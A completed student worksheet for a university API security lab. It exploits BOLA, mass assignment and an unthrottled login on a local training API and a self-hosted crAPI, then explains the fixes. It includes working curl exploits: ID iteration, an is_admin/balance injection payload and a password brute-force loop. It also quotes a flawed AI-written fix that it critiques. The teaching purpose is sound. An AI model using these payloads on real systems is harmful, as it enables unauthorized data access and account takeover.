





# Worksheet 10 — API Security (3 hrs)

> **Course:** Software Security (KOSEN69) · Week 10
> **Aligned:** OWASP API Security Top 10:2023 — API1 BOLA · API3 Broken Object Property Level Auth (Mass Assignment) · API4 Unrestricted Resource Consumption
> **Signature game:** 🥷 crAPI Raid
>
> **Ethics note:** Run exploits **only** against the lab targets shipped here (`vulnerable_api.py` on `:8080`) or your own OWASP crAPI instance. Never test BOLA, mass assignment, or brute-force against systems you do not own or are not explicitly authorized to test.

## Part 1 — Student Information 🟢

| Name | Student ID | Date | Group | 
|------|------------|------|-------|
| Panaikron Marohabut | 6631503126 | 2026-10-10 | 

---

## Part 2 — Lecture Questions 🟢

1. **Define BOLA (API1:2023). Why is it the #1 API risk, and why can't a WAF reliably stop it?**

   **ANSWER:** **BOLA (Broken Object Level Authorization)** means the API checks *who* is calling, but never checks if that user actually owns the object they are asking for. It is like **IDOR** at API scale — an attacker simply changes the ID in the URL to read another user's data. It is the #1 risk because REST APIs put object IDs in URLs everywhere, making it trivial to loop through IDs one after another. A WAF cannot reliably stop it because the request is normal, valid HTTP/JSON with no malicious syntax — only the application logic knows who owns each object.

2. **What is mass assignment / broken object property level authorization (API3:2023)? Contrast a blocklist vs. an allow-list of bindable fields.**

   **ANSWER:** **Mass assignment** happens when the server copies the entire JSON request body straight into the database record without filtering (such as `user.update(body)`), allowing a client to smuggle sensitive fields they should never control, like `is_admin` or `balance`. A **blocklist** tries to ban known dangerous fields while allowing everything else — which breaks easily whenever a new internal field is added later. An **allow-list** does the opposite: it explicitly names only the safe client-editable fields (e.g., `username` and `password`) and drops everything else, making it safe by default.

3. **API4:2023 is unrestricted resource consumption. Give two distinct impacts (security and availability) of an unthrottled `/api/login`.**

   **ANSWER:**
   - **Security impact:** Without a rate limit, an attacker can run unlimited password guesses (brute-force or credential stuffing) until they find the right password and take over the account.
   - **Availability impact:** Flooding `/api/login` with thousands of requests ties up server CPU, workers, and database connections, slowing down or crashing the service for legitimate users (Denial of Service / DoS).

4. **In `vulnerable_api.py`, `current_user()` trusts the `X-User-Id` header. Why is a client-supplied header NOT authentication, and what should replace it?**

   **ANSWER:** Any client can freely set or modify request headers using `curl`, Burp Suite, or Postman, so `X-User-Id` is just the client *claiming* who they are with zero proof. Real authentication requires a credential the client cannot forge — such as a cryptographically signed **JWT** verified on the server, or an opaque random **session token** stored server-side.

5. **Why does object-level authorization have to be checked per request, per object rather than once at login?**

   **ANSWER:** Logging in only proves *who you are* (authentication); it says nothing about *which specific objects* you are allowed to touch. Because every API request can target a different object ID in the URL or body, the server must verify *"does this caller own THIS object?"* on every single request. Permissions can also change while a session is still active, so a one-time check at login is never enough.

---

## Part 3 — Hands-on Lab (145 min) 🟢

**Learning goals:** Exploit BOLA, mass assignment, and a missing rate limit against a live API; then read the secure version and explain each fix.

**Prerequisites:** Docker + Docker Compose, `curl`. (Optional bonus: cloned OWASP crAPI.)

**Environment setup:**
```bash
cd labs/week10-api-security
docker compose up         # INSECURE API on :8080, SECURE API on :8081
# Seeded users: alice(id 1) bob(id 2) carol(id 3, admin, balance 9999)
```

**What to submit per task:** the exact command(s) + raw response/HTTP status, a screenshot, and a 2–3 sentence mitigation note mapping the bug to its OWASP API id.


---

### Task 0 — Onboarding (15 min) 🟢

- **Instructions:** Confirm both APIs respond (`curl http://localhost:8080/` and `curl http://localhost:8081/`). Note which port is insecure. Record the three seeded users.
- **Deliverable:** both root responses + the user table.

#### Task 0 — Answer (6631503126)

**Commands + responses:**
```bash
$ curl http://localhost:8080/
Week 10 INSECURE API — see attack.md

$ curl http://localhost:8081/
Week 10 SECURE API
```

**Which port is insecure:** `:8080` (runs `vulnerable_api.py`) — this is the attack target. `:8081` runs `solution_api.py`, the fixed version, for comparison.

**Seeded users (from `vulnerable_api.py` L21–28):**

| id | username | password | is_admin | balance |
|---:|----------|----------|----------|--------:|
| 1 | alice | `alice123` | `false` | 100 |
| 2 | bob | `bob123` | `false` | 50 |
| 3 | carol | `carol123` | `true` | 9999 |

**Screenshot:**



---

### Task 1 — BOLA: read another user's orders (35 min) 🟢

- **Goal:** Read carol's (admin) orders without being carol — **API1:2023**.
- **Steps:**
  1. `curl http://localhost:8080/api/users/3/orders` — note you receive the "Server rack" order with no auth.
  2. Iterate the id: `curl http://localhost:8080/api/users/2/orders`.
  3. On the secure API observe the ladder: `curl -i http://localhost:8081/api/users/3/orders` (401), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders` (403), `curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders` (200).
- **Deliverable:** the leaked order JSON + the 401/403/200 transcript + mitigation note.

#### Task 1 — Answer (6631503126)

**1) BOLA on insecure API (`:8080`) — carol's orders leaked with no auth:**
```bash
$ curl http://localhost:8080/api/users/3/orders
[{"item":"Server rack","order_id":"C-1","total":5000},{"item":"FLAG{bola_demo}","order_id":"C-FLAG","total":0}]

$ curl http://localhost:8080/api/users/2/orders
[{"item":"Mouse","order_id":"B-1","total":15}]
```
Carol's orders (including `FLAG{bola_demo}`) and bob's orders are returned with **no identity at all** — `get_orders()` (`vulnerable_api.py` L50–51) never checks who is calling; there is no check to bypass.

**2) Secure API (`:8081`) — the 401 / 403 / 200 ladder:**
```bash
$ curl -i http://localhost:8081/api/users/3/orders
HTTP/1.1 401 UNAUTHORIZED
{"error":"authentication required"}

$ curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/3/orders
HTTP/1.1 403 FORBIDDEN
{"error":"forbidden"}

$ curl -i -H "X-User-Id: 1" http://localhost:8081/api/users/1/orders
HTTP/1.1 200 OK
[{"item":"Keyboard","order_id":"A-1","total":30}]
```

> **Mitigation note (API1:2023 BOLA):** The insecure endpoint returned any user's orders by ID with no ownership check. The fix adds a per-request object-level authorization check (`caller["id"] != uid and not caller["is_admin"]` → `403`), so the server verifies *"does this caller own this object?"* on every request.

**Screenshot:**



---

### Task 2 — Mass assignment: self-promote to admin (30 min) 🟢

- **Goal:** Smuggle `is_admin` + `balance` into user creation — **API3:2023**.
- **Steps:**
  1. `curl -X POST http://localhost:8080/api/users -H "Content-Type: application/json" -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'`
  2. Confirm the response echoes `"is_admin": true, "balance": 1000000`.
  3. Repeat against `:8081` and confirm the smuggled fields are forced to `is_admin:false, balance:0`.
- **Deliverable:** both responses side by side + mitigation note (allow-list in `solution_api.py`).

#### Task 2 — Answer (6631503126)

**1) Mass assignment on insecure API (`:8080`) — smuggled fields accepted:**
```bash
$ curl -X POST http://localhost:8080/api/users -H "Content-Type: application/json" -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'
{"balance":1000000,"flag":"FLAG{massassign_demo}","id":4,"is_admin":true,"password":"x","username":"mallory"}
```
`user.update(body)` (`vulnerable_api.py` L62) binds the whole JSON body directly into the user dictionary, so `is_admin` and `balance` are saved — and setting `is_admin: true` reveals `FLAG{massassign_demo}`.

**2) Same request on secure API (`:8081`) — smuggled fields ignored:**
```bash
$ curl -X POST http://localhost:8081/api/users -H "Content-Type: application/json" -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'
{"balance":0,"id":4,"is_admin":false,"password":"x","username":"mallory"}
```

> **Mitigation note (API3:2023 BOPLA / Mass Assignment):** The insecure endpoint trusts every key in the client's JSON body. The fix uses an explicit allow-list of bindable fields — `ALLOWED_CREATE_FIELDS = {"username", "password"}` (`solution_api.py` L34, L62) — while the server assigns sensitive fields itself (`balance: 0`, `is_admin: False`, L66), discarding any extra keys sent by the client.

**Screenshot:**



---

### Task 3 — Unrestricted resource consumption: brute-force login (25 min) 🟢

- **Goal:** Show `/api/login` has no throttle — **API4:2023**.
- **Steps:**
  1. Run the brute-force loop from `attack.md` against `:8080` (guesses incl. `alice123`) — all attempts processed.
  2. On `:8081` loop 7 times: `for i in $(seq 1 7); do curl -s -o /dev/null -w "%{http_code}\n" -X POST http://localhost:8081/api/login -H "Content-Type: application/json" -d '{"username":"alice","password":"wrong"}'; done`
  3. Confirm the 6th/7th attempt returns `429`.
- **Deliverable:** the `401 401 401 401 401 429 429` sequence + mitigation note.

#### Task 3 — Answer (6631503126)

**1) Brute-force on insecure API (`:8080`) — every guess is processed, no throttle:**
```bash
$ for pw in wrong1 wrong2 wrong3 alice123; do
  curl -s -X POST http://localhost:8080/api/login -H "Content-Type: application/json" -d "{\"username\":\"alice\",\"password\":\"$pw\"}"; echo
done
{"ok":false}
{"ok":false}
{"ok":false}
{"is_admin":false,"ok":true,"user_id":1}
```
All 4 guesses are processed without delay — and the 4th guess (`alice123`, alice's real password) logs in as `user_id: 1`. With no rate limit, an attacker can keep guessing until the password is found.

**2) Same endpoint on secure API (`:8081`) — locked out after 5 attempts:**
```bash
$ for i in $(seq 1 7); do curl -s -o /dev/null -w "%{http_code}\n" -X POST http://localhost:8081/api/login -H "Content-Type: application/json" -d '{"username":"alice","password":"wrong"}'; done
401
401
401
401
401
429
429
```
The first 5 wrong guesses return `401`; attempts 6 and 7 within 60 seconds return `429 Too Many Requests`.

> **Mitigation note (API4:2023 Unrestricted Resource Consumption):** The insecure `/api/login` answers unlimited requests, enabling brute-force account takeover and request-flooding DoS. The fix enforces a per-IP sliding-window limiter — `RATE_LIMIT = 5` per `RATE_WINDOW = 60` seconds (`solution_api.py` L73–74) — checked before password verification (L89–90) so excess attempts immediately get `429`.

**Screenshot:**



---

### Task 4 — Bonus: crAPI Raid (optional, 20 min) 🟢

- **Goal:** Against your own OWASP crAPI instance (`git clone https://github.com/OWASP/crAPI.git`), capture one BOLA or mass-assignment flag.
- **Deliverable:** flag + endpoint + which API Top 10 id it maps to.

#### Task 4 — Answer (6631503126)

**Steps (against own crAPI instance, gateway `:8888`):**

1. Signed up and logged in as `pan@mail.com` via `POST /identity/api/auth/login` → received JWT (`"role": "user"`):
   ```json
   {"token":"eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJwYW5AbWFpbC5jb20i...","type":"Bearer","message":"Login successful"}
   ```

2. Queried `GET /community/api/v2/community/posts/recent` — every post leaks the author's `vehicleid` GUID in the response (excessive data exposure). Picked Adam's GUID:
   ```json
   "author": {"nickname":"Adam","email":"adam007@example.com","vehicleid":"f89b5f21-7829-45cb-a650-299a61090378"}
   ```

3. Called the vehicle location endpoint using **pan's** JWT but **Adam's** vehicle GUID:
   ```bash
   $ curl -i "http://localhost:8888/identity/api/v2/vehicle/f89b5f21-7829-45cb-a650-299a61090378/location" -H "Authorization: Bearer $TOKEN"
   HTTP/1.1 200
   {"carId":"f89b5f21-7829-45cb-a650-299a61090378","vehicleLocation":{"id":1,"latitude":"32.778889","longitude":"-91.919243"},"fullName":"Adam","email":"adam007@example.com"}
   ```

- **Result (flag):** Read another user's (Adam's) live vehicle GPS location — plus his full name and email — while authenticated only as `pan`. The handler `getLocationBOLA()` (`VehicleController.java` L121) returns the location for any GUID without checking that the caller owns the vehicle.
- **Maps to:** **API1:2023 BOLA** (no object-level ownership check on `carId`), chained with **API3:2023 Excessive Data Exposure** (the community posts endpoint leaking every author's `vehicleid` GUID).

**Screenshot:**



---

### Task 5 — Defend / fix it (20 min) 🟢

- **Goal:** Explain the fixes using the secure reference `solution_api.py`.
- **Steps:** Read the three `# --- FIX ...` blocks. For each, quote the line(s) that defeat your Task 1–3 exploit: the per-object ownership check (`caller["id"] != uid and not caller["is_admin"]`), `ALLOWED_CREATE_FIELDS` binding, and the `RATE_LIMIT=5 / RATE_WINDOW=60` limiter.
- **Deliverable:** for each of API1/API3/API4 — the exploit that worked on `:8080`, the line in `solution_api.py` that blocks it, and the new HTTP status on `:8081`.

#### Task 5 — Answer (6631503126)

| Finding | Exploit that worked on `:8080` | Fix line(s) in `solution_api.py` | New status on `:8081` |
|---------|--------------------------------|----------------------------------|-----------------------|
| **API1:2023 BOLA** | `GET /api/users/3/orders` returned carol's orders (incl. `FLAG{bola_demo}`) with no identity at all | L47–49: `caller = current_user()` → `401` when no identity;<br>L51: `if caller["id"] != uid and not caller["is_admin"]: return 403` (per-object ownership check) | `401` (no id) → `403` (not owner) → `200` (own object) |
| **API3:2023 Mass Assignment** | `POST /api/users` with `"is_admin":true,"balance":1000000` was stored and returned `FLAG{massassign_demo}` | L34: `ALLOWED_CREATE_FIELDS = {"username", "password"}`;<br>L62: `user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}`;<br>L66: `user.update({"id": _next_id, "balance": 0, "is_admin": False})` | `201 Created`, but `is_admin: false, balance: 0` (smuggled fields discarded) |
| **API4:2023 Unrestricted Resource Consumption** | Unlimited login guesses on `/api/login`; every attempt processed, `alice123` logged in as alice | L73–74: `RATE_LIMIT = 5` / `RATE_WINDOW = 60`;<br>L78–84: `rate_limited(ip)` sliding window;<br>L89–90: `if rate_limited(...): return 429` **before** password check | `401` × 5, then `429` × 2 |

> The three fixes are authorization and design controls, not input syntax filters — the JSON in every exploit was valid and well-formed; the server simply allowed actions it should have denied.

---

## Part 4 — Reflection 🟢

1. **Mapping:** complete a table — finding | endpoint | OWASP API id | fix applied.

   | Finding | Endpoint | OWASP API id | Fix applied |
   |---------|----------|--------------|-------------|
   | BOLA (read any user's orders by changing `<uid>`) | `GET /api/users/<uid>/orders` | **API1:2023** | Check caller identity (`401`) and check `caller["id"] == uid` or admin (`403`) |
   | Mass assignment (smuggle `is_admin` and `balance` in JSON body) | `POST /api/users` | **API3:2023** | Allow-list only `{"username", "password"}` and set `is_admin=False, balance=0` on server |
   | No rate limit on login (brute-force passwords) | `POST /api/login` | **API4:2023** | Limit to 5 attempts per 60s per IP (`429 Too Many Requests`) |
   | crAPI vehicle location leaked by `carId` GUID | `GET /identity/api/v2/vehicle/<carId>/location` | **API1:2023** (+ **API3:2023**) | Check that the logged-in user owns `carId` and stop leaking `vehicleid` in public posts |

2. **Real breach:** research an API authorization breach (e.g., the Optus or T-Mobile BOLA/IDOR incidents). Which API Top 10 id matches, and would the `solution_api.py` ownership check have prevented it?

   The **2022 Optus breach** leaked millions of customer records because their API let anyone fetch customer data just by guessing and looping through ID numbers in the request, with no permission check. This matches **API1:2023 (BOLA)**, which is the same bug as Task 1 where changing `/api/users/3/orders` to `/api/users/2/orders` gave us another user's orders. Yes, the ownership check in `solution_api.py` (`if caller["id"] != uid and not caller["is_admin"]: return 403`) would have stopped it, because the server would block anyone trying to read an ID that does not belong to them.

3. **Best mitigation:** of object-level auth, allow-list binding, and rate limiting — which gives the most risk reduction for an API platform, and why?

   **Object-level authorization** reduces the most risk. Rate limiting only slows an attacker down, and allow-list binding only protects create/update requests. Almost every API endpoint accesses data using an ID, so if the server never checks who owns that ID, any normal user can quietly steal or edit everyone else's data using valid requests.

---

## Grading rubric (100)

| Criterion | Weight |
|-----------|-------:|
| Lecture questions (Part 2) | 20 |
| Exploitation + evidence (Tasks 1–4: commands, output, screenshots) | 40 |
| Defense (Task 5: fixes mapped to `solution_api.py`) | 25 |
| Reflection (Part 4: mapping, breach, best mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required) 🟢

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** ____________________
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?

     I did three attacks on `:8080`: changed the user ID in `/api/users/3/orders` to read carol's orders without logging in, sent `"is_admin": true` and `"balance": 1000000` when creating a user to make myself admin, and ran a loop of passwords on `/api/login` until `alice123` worked. They all worked because the API trusted whatever the client sent — it never checked if I owned the orders, it copied the whole JSON body straight into the user object, and it had no limit on login attempts.

  2. **Why does your fix actually stop it** — and what could still break it?

     The fix in `solution_api.py` stops them by checking order ownership (`401`/`403`), only allowing `username` and `password` from the request body while forcing `is_admin: false`, and blocking an IP with `429` after 5 login tries in 60 seconds. What could still break it is `current_user()` trusting the `X-User-Id` header (anyone can still type `X-User-Id: 3` in curl to pretend to be admin), and an attacker changing their IP to bypass the rate limit.

---

## 🤖 Audit the AI (required) 🟢

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.

   **Prompt to AI:** "Fix the BOLA, mass assignment, and brute-force login vulnerabilities in `vulnerable_api.py` (Flask)."

   **AI's full answer:**
   ```python
   import time
   from flask import Flask, jsonify, request

   app = Flask(__name__)
   FAILED_LOGINS = {}

   @app.get("/api/users/<int:uid>/orders")
   def get_orders(uid):
       caller = current_user()
       if not caller:
           return jsonify({"error": "unauthorized"}), 401
       return jsonify(ORDERS.get(uid, []))

   @app.post("/api/users")
   def create_user():
       global _next_id
       body = request.get_json(force=True) or {}
       body.pop("is_admin", None)   # block privilege escalation
       user = {"id": _next_id, "balance": 0, "is_admin": False}
       user.update(body)
       USERS[_next_id] = user
       _next_id += 1
       return jsonify(user), 201

   @app.post("/api/login")
   def login():
       body = request.get_json(force=True) or {}
       username = body.get("username", "")
       if FAILED_LOGINS.get(username, 0) >= 5:
           return jsonify({"error": "too many requests"}), 429
       for u in USERS.values():
           if u["username"] == username and u["password"] == body.get("password"):
               FAILED_LOGINS[username] = 0
               return jsonify({"ok": True, "user_id": u["id"], "is_admin": u["is_admin"]})
       FAILED_LOGINS[username] = FAILED_LOGINS.get(username, 0) + 1
       return jsonify({"ok": False}), 401
   ```

2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).

   - **BOLA is not fixed at all (authentication ≠ authorization):** In `get_orders(uid)`, the AI wrote `if not caller: return jsonify({"error": "unauthorized"}), 401` and then immediately returned `jsonify(ORDERS.get(uid, []))`. It only checked *that someone is logged in*, never whether `caller["id"] == uid` — so Alice (`X-User-Id: 1`) can still read Carol's orders (`/api/users/3/orders`).
   - **Mass assignment uses an incomplete blocklist instead of an allow-list, and overwrites defaults:** The AI wrote `body.pop("is_admin", None)` followed by `user.update(body)`. Because `user.update(body)` runs *after* setting `"balance": 0`, a client can still send `"balance": 1000000` (or even overwrite `"id": 1`) and it gets saved!
   - **Rate limiter causes permanent account lockout (DoS) and has no time window:** The line `if FAILED_LOGINS.get(username, 0) >= 5:` locks the account by `username` forever with no expiry window, meaning an attacker can intentionally send 5 wrong passwords for `alice` and permanently lock the real Alice out of her account. It also doesn't stop an attacker from spraying 4 guesses each across thousands of usernames from one IP.

3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.

   **Correct, verified version (from `solution_api.py`):**
   ```python
   ALLOWED_CREATE_FIELDS = {"username", "password"}
   RATE_LIMIT = 5
   RATE_WINDOW = 60
   _attempts = defaultdict(list)

   def rate_limited(ip):
       now = time.time()
       _attempts[ip] = [t for t in _attempts[ip] if now - t < RATE_WINDOW]
       if len(_attempts[ip]) >= RATE_LIMIT:
           return True
       _attempts[ip].append(now)
       return False

   @app.get("/api/users/<int:uid>/orders")
   def get_orders(uid):
       caller = current_user()
       if caller is None:
           return jsonify({"error": "authentication required"}), 401
       if caller["id"] != uid and not caller["is_admin"]:
           return jsonify({"error": "forbidden"}), 403
       return jsonify(ORDERS.get(uid, []))

   @app.post("/api/users")
   def create_user():
       global _next_id
       body = request.get_json(force=True) or {}
       user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}
       if "username" not in user or "password" not in user:
           return jsonify({"error": "username and password required"}), 400
       user.update({"id": _next_id, "balance": 0, "is_admin": False})
       USERS[_next_id] = user
       _next_id += 1
       return jsonify(user), 201

   @app.post("/api/login")
   def login():
       if rate_limited(request.remote_addr or "unknown"):
           return jsonify({"error": "too many requests"}), 429
       body = request.get_json(force=True) or {}
       for u in USERS.values():
           if u["username"] == body.get("username") and u["password"] == body.get("password"):
               return jsonify({"ok": True, "user_id": u["id"], "is_admin": u["is_admin"]})
       return jsonify({"ok": False}), 401
   ```

   The AI's code looked secure at first glance but failed on all three bugs: it confused authentication (`caller is not None`) with object-level ownership (`caller["id"] == uid`), used a partial blocklist (`pop("is_admin")`) that still let attackers smuggle `balance` and `id`, and built a counter with no expiry window that let anyone permanently lock out real users. The verified fix enforces per-object ownership (`403`), binds only an explicit allow-list (`{"username", "password"}`) before setting server-controlled fields, and applies a 60-second sliding-window rate limit per IP before checking credentials.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required) 🟢

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

The vulnerable API lets users view orders at `/api/users/<uid>/orders`, register new accounts at `/api/users`, and log in at `/api/login`, but it trusts whatever the client sends without checking permissions or limits. When someone asks for orders, the server looks up the user ID from the URL and returns the orders right away without checking if the caller actually owns that ID, and when creating a user it copies every field from the user's JSON request straight into the database — so anyone can read another person's orders just by changing the number in the URL, or make themselves a millionaire admin by adding `"is_admin": true` and `"balance": 1000000` to their sign-up request.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.

**Final prompt:**
> Fix the Mass Assignment (OWASP API3:2023) vulnerability in this Flask `POST /api/users` handler (`create_user`). Do NOT use a blocklist. Instead:
> 1. Define `ALLOWED_CREATE_FIELDS = {"username", "password"}` and build the `user` dict by copying ONLY keys from the JSON body that are in `ALLOWED_CREATE_FIELDS`.
> 2. If `"username"` or `"password"` is missing, return `jsonify({"error": "username and password required"}), 400`.
> 3. Force server-controlled fields AFTER filtering by calling `user.update({"id": _next_id, "balance": 0, "is_admin": False})` so client-supplied `"is_admin"` or `"balance"` keys are completely ignored.
> Return the complete Flask function.

**AI output:**
```python
ALLOWED_CREATE_FIELDS = {"username", "password"}

@app.post("/api/users")
def create_user():
    global _next_id
    body = request.get_json(force=True) or {}
    user = {k: body[k] for k in ALLOWED_CREATE_FIELDS if k in body}
    if "username" not in user or "password" not in user:
        return jsonify({"error": "username and password required"}), 400
    user.update({"id": _next_id, "balance": 0, "is_admin": False})
    USERS[_next_id] = user
    _next_id += 1
    return jsonify(user), 201
```

**Verified result:**
I tested the Task 2 exploit payload against the fixed endpoint on `:8081`:
```bash
$ curl -X POST http://localhost:8081/api/users -H "Content-Type: application/json" -d '{"username":"mallory","password":"x","is_admin":true,"balance":1000000}'
{"balance":0,"id":4,"is_admin":false,"password":"x","username":"mallory"}
```
The smuggled `"is_admin": true` and `"balance": 1000000` fields were ignored, the new user was created with `"is_admin": false` and `"balance": 0`, and `FLAG{massassign_demo}` was not leaked.

*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*
